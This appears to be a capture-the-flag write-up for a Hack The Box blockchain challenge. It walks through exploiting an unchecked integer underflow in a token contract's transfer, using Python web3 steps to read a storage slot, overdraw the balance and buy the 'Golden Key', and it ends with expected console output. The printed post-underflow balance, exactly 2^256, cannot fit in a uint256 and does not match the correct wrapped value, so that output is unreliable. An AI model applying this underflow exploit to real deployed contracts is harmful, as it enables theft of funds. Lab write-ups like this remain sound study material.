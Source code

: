 But since there's no check and `_transfer` uses `unchecked`, we can exploit the underflow.

---

## Exploitation

### Step 1: Read SilverCoin Address from Storage

The `silverCoin` variable is at storage slot 1 (after the items array at slot 0):

```python
storage = w3.eth.get_storage_at(shop_address, 1)
silver_address = Web3.to_checksum_address('0x' + storage.hex()[-40:])
```

### Step 2: Trigger the Underflow

Transfer 25,000,000 tokens to the shop (we only have 100):

```python
silver_contract.functions.transfer(shop_address, 25_000_000).transact()
```

Our balance after this: `115792089237316195423570985008687907853269984665640564039457584007913129639936`

### Step 3: Approve and Buy

Now that we have unlimited tokens:

```python
# Approve shop to spend our tokens
silver_contract.functions.approve(shop_address, 25_000_000).transact()

# Buy the Golden Key (item 2)
shop_contract.functions.buyItem(2).transact()
```

Done! We now own the Golden Key.

---

## Running the Solution

1. **Spawn an HTB instance**
2. **Update the BASE_URL** in `main.py` with your instance endpoint
3. **Run**:

```bash
python main.py
```

### Expected Output

```
Getting connection info...
Connected to blockchain
Player: 0x9303326fAD5B468D59f372aF9f219951692414a6
Shop: 0x8Dac90Bcc51A06167A29ba6104eA8D70e3E9B04D
SilverCoin: 0xd6c38bA4751b5c79d05860C401840Cc59951e6A3

Initial balance: 100 SLV
Golden Key price: 25000000 SLV
Current owner: 0x8Dac90Bcc51A06167A29ba6104eA8D70e3E9B04D

Exploiting integer underflow...
Balance after underflow: 115792089237316195423570985008687907853269984665640564039457584007913129639936 SLV
```